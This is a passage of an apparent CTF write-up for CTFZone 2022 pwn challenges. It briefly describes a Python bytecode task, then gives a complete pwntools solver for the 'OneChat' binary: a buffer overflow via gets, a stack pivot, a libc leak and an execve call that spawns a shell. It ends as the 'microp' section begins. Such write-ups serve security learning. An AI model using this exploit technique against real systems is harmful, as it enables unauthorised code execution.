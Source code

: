 # CTFZone 2022

A 48h CTF Organized by BIZone which took place on August 24–26.

I played as a member of Soteria Team & together, we ranked 22th out of more than 1000 teams.

For this CTF, I've played pwn challenges & they were pretty tough. I've searched & learnt new stuff when dealing with these challenges therefore I really enjoyed this one. I've managed to solve 3 challeges & made progress in the fourth challenge (`stringi`) but I didn't manage to solve it. My favorite challenge for this CTF was [microp](#pwn3 "Writeup"), feel free to check the writeup for more details!

------------

- [Pwn](#pwn)
    -  [Python Bytecode Challenge - Welcome & Part 1](#pwn1 "Writeup")
	-  [OneChat](#pwn2 "Writeup")
    -  [microp](#pwn3 "Writeup")

------------

### Pwn
1. <p name="pwn1"><b>Python Bytecode Challenge - Welcome & Part 1</b> - Medium</p>

For this one, we were given a cli that took care of testing & submitting the solutions. This challenge consist of a set of challenges:

```
Tasks list without names:
- t0-series - 2 tasks - Welcome & guide
- t1-series - 6 tasks - 1 flag - easy-medium
- t2-series - 4 tasks - 1 flag - easy-medium
- t3-series - 3 tasks - 1 flag - medium-hard
- t4-series - 3 tasks - 1 flag - medium
- t5-series - 2 tasks - 1 flag - medium-hard
```

You may check out the cli [here](/2022/CTFZone%202022/source/bc_challenge/) & make sure to check the [guide](/2022/CTFZone%202022/source/bc_challenge/guide). I solved only the `t1-series` challenges therefore the rest of the tasks will be missing from there. The next task was automatically downloaded after solving a task.

The `t0-series` are a tutorial to how to use the cli & get friendly with the environment.

This challenge required a knowledge of Python OpCodes. We were asked to write a function with certain limits, such as opcodes used, the number of opcodes & constantss... And we had to retrieve a secret which could be found in a module or in a variable...

Tasks: [Link](/2022/CTFZone%202022/source/bc_challenge/bc_challenge/tasks/)<br>
Solutions: [Link](/2022/CTFZone%202022/source/bc_challenge/bc_challenge/solutions/)

For this challenge, [Python Documentation](https://docs.python.org/3.9/library/dis.html#python-bytecode-instructions) was good enough to figure out what opcodes to use/remove.

<br>

2. <p name="pwn2"><b>OneChat</b> - Easy</p>

For this one, we had a usual **ret2libc** exploitation, feel free to check the challenge files [here](/2022/CTFZone%202022/source/OneChat/). A binary that reads a `message` & a `name` from the user, both vulnerable to buffer overflow due to the use of `gets` function. Both of them are overflowing in the `add_message` stackframe however, the `message` is copied into the `main` stackframe via an argument passed to the function. Since I used `message` to exploit this **BOF** this caused the payload to overlap with itself, resulting in a part of the payload unuseable which I avoided using a series of pop gadget. To avoid any more problems I decided to stack pivot.

Solver ([Link](/2022/CTFZone%202022/source/OneChat/solve.py))

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chat_patched")
libc = ELF('./libc.so.6')

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("onechat.ctfz.one", 1337)

    return r


def main():
    r = conn()
    
    pop_rdi = 0x00000000004017bb
    add_rsp = 0x0000000000401012
    ret = 0x0000000000401016
    puts = 0x0000000000401050
    pop_3 = 0x00000000004017b6
    writeable = 0x00000000404000 + 0xa00
    leave_ret = 0x00000000004012e3
    
    r.sendline(b'2')
    
    payload = b"A" * 24
    # This is the end of the first rop chain
    payload += p64(pop_rdi) + p64(writeable)
    payload += p64(exe.symbols.gets)
    payload += p64(leave_ret) # Pivot to get a much cleaner payload
    
    assert len(payload) < 136, "Payload len"
    payload += b"a" * (136 - len(payload) - 8)
    
    # first ROP Chain starts here
    payload += p64(writeable) # RBP
    payload += p64(pop_3) # avoid stack values that got edited
    payload += p64(0x9090909090909090)
    payload += p64(0x9090909090909090) # padding
    payload += p64(pop_rdi)
    payload += p64(exe.got.puts)
    payload += p64(exe.plt.puts) # Leak libc
    
    pause()
    
    r.sendline(payload) # Stage one
    r.sendline(b'm'*6)
    
    pause()
    
    payload = b"/bin/sh\0"
    payload += p64(pop_rdi) + p64(exe.got.puts)
    payload += p64(puts)
    payload += p64(pop_rdi) + p64(writeable+8*7)
    payload += p64(exe.symbols.gets)
    
    r.sendline(payload) # Stage two
    
    r.recvuntil(b'u want to add?\n> ')
    leak = u64(r.readline().strip().ljust(8, b'\0'))
    
    print('leak:', hex(leak))
    
    libc_base = leak - libc.symbols.puts
    pop_rdx_rbx = 0x00000000000884a9 + libc_base
    pop_rsi = 0x000000000002b151 + libc_base
    execve = libc_base + libc.symbols.execve
    
    print("libc base:", hex(libc_base))
    
    pause()
    
    payload = p64(pop_rdi) + p64(writeable)
    payload += p64(pop_rdx_rbx) + p64(0) * 2
    payload += p64(pop_rsi) + p64(0)
    payload += p64(execve)
    
    r.sendline(payload) # Stage three
    
    r.interactive()


if __name__ == "__main__":
    main()
```

Flag: `CTFZone{n0_m0n3y_n0_h0n3y_n0_us3rs_n0_pr0b13ms}`

<br>

2. <p name="pwn3"><b>microp</b> - Medium</p>